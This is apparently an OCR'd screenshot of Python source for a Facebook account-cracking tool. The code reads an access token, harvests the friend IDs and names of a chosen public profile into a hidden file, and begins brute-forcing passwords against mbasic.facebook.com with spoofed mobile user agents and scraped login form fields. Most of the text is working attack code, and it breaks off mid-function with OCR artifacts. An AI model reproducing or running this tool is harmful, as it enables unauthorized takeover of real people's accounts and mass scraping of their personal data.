 class __cracking__:
	def __init__(self):
		self.id = []
		if not os.path.exists("access_token.txt"):
			login()
	def plerr(self):
		os.system("clear");print(banner);access_token = open('access_token.txt','r').read();dill=[];os.system("rm -rf .publicout.txt")
		print('          \033[1;32m[ PUBLIC CLONING CP/OK MIX ] ')
		print(50*"\033[1;97m_")
		self.apk = input("\033[1;37m[+]\033[1;96m PUBLIC ID \033[1;91m:  \033[1;92m")
		#self.id = open('.publicout.txt').read().splitlines()
		ppk = ('.publicout' + '.txt').replace(' ', '_')
		ys = open(ppk, 'a')
		rg = requests.get('https://graph.facebook.com/'+self.apk+'/friends?limit=5000&access_token='+access_token).text
		rgq = json.loads(rg)
		idsave=open('.publicout.txt', 'a')
		for inayat in rgq['data']:
			uids = inayat['id']
			dill.append(uids)
			nm = inayat['name']
			first_name = nm.split(' ')[0]
			try:
				last_name = nm.split(' ')[1]
			except:
				last_name = 'Khan'
			idsave.write(uids+'|'+first_name+' '+last_name+'\n')
		self.__pler__()
	def __mbasic__(self, user, _sempak_):
		global ok,cp,loop
		sys.stdout.write(f"\r \x1b[1;97m[\033[1;36mAdi\033[1;37m] {loop}/{len(self.id)} \033[1;37m[\033[1;36mTOTAL-Idz\033[1;37m] \033[1;37m[\033[1;36m{len(ok)}\033[1;37m]")
		sys.stdout.flush()
		for pw in _sempak_:
			pw = pw.lower()
			try: os.mkdir('')
			except: pass
			try:
				psyagents = random.choice(liners)
			except (KeyError, IOError):
				psyagents  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
			ses = requests.Session()
			headers_ = {"Host":"mbasic.facebook.com","upgrade-insecure-requests":"1","user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			p = ses.get('https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text
			dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}